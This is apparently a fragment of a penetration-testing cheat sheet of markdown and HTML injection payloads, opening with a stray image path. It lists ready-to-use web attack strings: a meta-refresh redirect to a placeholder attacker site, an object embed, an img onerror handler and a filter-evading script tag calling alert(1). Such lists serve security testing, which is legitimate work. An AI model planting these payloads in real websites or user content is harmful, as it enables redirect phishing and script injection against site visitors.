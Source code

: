 ## Redirect

### Meta <i> (useful for websites that supports only few markdown features) </i>
```html
<meta http-equiv="refresh" content='0; url=http://attacker.site/'>
```

### Object
```html
<object data="/path" type="text/html"></object>
```
<br>

## Execution

### Img
```html
<img src=x onerror="something();"/>
```

### No Space
```html
<script\x20type="text/javascript">javascript:alert(1);</script>
```
